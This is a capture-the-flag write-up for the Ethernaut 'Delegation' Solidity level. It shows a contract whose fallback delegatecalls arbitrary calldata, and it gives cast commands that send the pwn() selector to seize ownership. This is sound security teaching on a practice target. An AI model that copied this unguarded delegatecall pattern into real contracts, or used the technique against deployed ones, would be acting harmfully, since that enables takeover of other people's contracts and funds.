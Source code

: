## Delegation Level Outline

**Difficulty : 4/10**

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution

We can **spoof** the delegate call by sending a transation that contains the function signature to the "pwn()" function.

### Walkthrough

##### 1. Getting the methodId for the pwn() function
```console
cast calldata "pwn()"
```
output
```console
0xdd365b8b
```
##### 2. Making a call to the fallback function where `msg.data` equals the calcualted methodId
```console
cast send $LEVEL_ADDRESS 0xdd365b8b --gas 50000 --private-key $PRIVATE_KEY 
```
> we need to set a custom gas limit for this transaction as the default amount insufficient

## Further Reading
[Video on Delegatecall](https://www.youtube.com/watch?v=uawCDnxFJ-0&t=208s)

[More info about methodId](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)


